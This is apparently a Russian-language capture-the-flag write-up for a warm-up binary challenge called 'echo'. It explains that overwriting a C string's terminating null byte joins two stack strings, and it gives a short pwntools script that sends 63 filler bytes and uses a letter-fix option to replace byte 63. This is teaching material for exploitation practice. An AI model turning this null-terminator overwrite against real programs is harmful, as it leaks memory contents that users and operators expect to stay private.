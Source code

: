 # Solution
Задачка на разминку. Из-за того, что в C конец строки обозначается нулевым байтом. 
Мы можем сконкатинировать две строки на стеке, если перетрём нулевой байт.

```py
from pwn import *

p = process("./echo")

p.sendlineafter(b"What's your name?\n", "A"*0x3f)
p.sendlineafter(b"Do you want to fix typo? (y/n)\n", b"y")
p.sendlineafter(b"enter index of letter to fix:\n", b"63")
p.sendlineafter(b"enter correct letter:\n", b"\n")

p.interactive()
```